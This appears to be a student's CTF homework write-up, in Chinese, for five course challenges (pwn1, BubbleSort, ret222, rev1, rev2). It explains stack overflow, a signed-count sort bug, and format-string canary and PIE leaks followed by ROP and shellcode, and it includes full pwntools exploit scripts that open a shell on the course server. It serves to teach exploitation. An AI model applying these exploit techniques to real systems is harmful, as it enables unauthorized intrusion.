 hw0
===

## pwn1

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

### concept

objdump 後發現 main 裡面是 gets 讀取輸入，沒有檢查長度所以有 buffer overflow 的漏洞，可以利用漏洞跳到 callme 函數即可拿到 shell

![](https://i.imgur.com/fm7FiID.png)

使用 gdb 測出 ret addr offset 為 40

![](https://i.imgur.com/EDz6A6i.png)

### exploit

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10120)

addr = 0x0000000000400566

r.sendline('a' * 40 + p64(addr))
r.interactive()
```

### flag

```FLAG{BuFFer_0V3Rflow_is_too_easy}```

## BubbleSort

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

### concept

objdump 後讀懂程式邏輯後發現 BubbleSort 中直接將 al 當作 sort 的個數

![](https://i.imgur.com/dZ8zdMd.png)

而原先輸入 sort 個數的值就是存在 eax 中，不過他有判斷 sort 個數不能超過 array 長度，但是可以輸入負數使得 al 的值超過 array 長度，導致 sort 超過 array 範圍，如此即可修改 ret addr 跳到 DarkSoul 函數獲得 shell

![](https://i.imgur.com/GEyVjvP.png)

![](https://i.imgur.com/8T6ikNv.png)

### exploit

將 127 格全部填滿 DarkSoul 的 addr，接著只要 sort 後 ret addr 為 DarkSoul addr 就成功，測試一下發現 -1 就可以了

不直接算 ret addr offset 的原因是因為其中的殘值與 DarkSoul addr 大小關係不確定，不一定直接 sort 127 + offset 的大小就能成功

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10121)

addr = '0x08048580'

r.recvuntil(':')
r.sendline('127')
r.recvuntil(':')
r.sendline('{} '.format(str(int(addr, 16))) * 127)
r.recvuntil(':')
r.sendline('-1')
r.interactive()
```

### flag

```FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}```

## ret222

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```

### concept

觀察到該程式保護全開，所以先找一下有沒有 format string 或 heap 相關的漏洞

可以發現在 Show info 輸出 name 的時候有 format string 的漏洞

![](https://i.imgur.com/f7SvZwn.png)

而在 Save data 時使用 `gets` 造成 buffer overflow

所以可以利用 format string leak 出 code base 和 canary，然後再利用 buffer overflow 做出 ROP 讀入 shellcode 到 name 上，最後再跳到 name 上即可 (程式最後結束時會將 name 後的一大塊 memory 權限設成 rwx)

### exploit

```python
#!/usr/bin/env python

from pwn import *

r = process('./ret222')

context.arch = 'amd64'

def setname(data):
    r.sendlineafter('>', '1')
    r.sendafter(':', data)

def showinfo():
    r.sendlineafter('>', '2')
    r.recvuntil(':')

def savedata(data):
    r.sendlineafter('>', '3')
    r.sendlineafter(':', data)

def ex():
    r.sendlineafter('>', '4')

setname("%23$p")
showinfo()
canary = int(r.recvuntil('*')[2:-1], 16)
log.info(hex(canary))

setname("%24$p")
showinfo()
base = int(r.recvuntil('*')[2:-1], 16) - 0xd40
log.info(hex(base))

name = base + 0x202020
main = base + 0xc00
gets = base + 0x908
pop_rdi = base + 0xda3

payload = 'a' * 136 + flat(canary, 'deadbeef', pop_rdi, name, gets, main)
savedata(payload)
ex()

r.sendline(asm(shellcraft.sh()))

payload = 'a' * 136 + flat(canary, 'deadbeef', name)
savedata(payload)
ex()

r.interactive()
```

### flag

```FLAG{YOU_ARE_REALLY_SMART!!!!!!}```

## rev1

### concept

objdump 後發現有一個 print_flag 函數

![](https://i.imgur.com/oxlrRbp.png)

直接使用 gdb 跳過去就會印出 flag 了

![](https://i.imgur.com/0WMcQsp.png)


### flag

```FLAG{_reverse_is_fun}```

## rev2

### concept

使用 IDA 反組譯後可以發現他將輸入每 byte 與 0xcc 做 xor 後和一個特定字串 (unk_4120BC) 比較，若相同輸入即為 flag

![](https://i.imgur.com/tXyz9qb.png)

unk_4120BC 內容

![](https://i.imgur.com/KFouQeu.png)

利用 xor 的特性可知將 unk_4120BC 每 byte xor 0xcc 即可還原出 flag

### exploit

```python
#!/usr/bin/python3

flag = [0x8A, 0x80, 0x8D, 0x8B, 0xB7, 0x94, 0xFC, 0xBE, 0x93, 0xB8, 0xA3,
        0x93, 0x8F, 0xBE, 0xF8, 0xAF, 0xA7, 0x93, 0x81, 0xFF, 0xB1]

for i in flag:
    print(chr(i ^ 0xcc), end='')
```

### flag

```FLAG{X0r_to_Cr4ck_M3}```
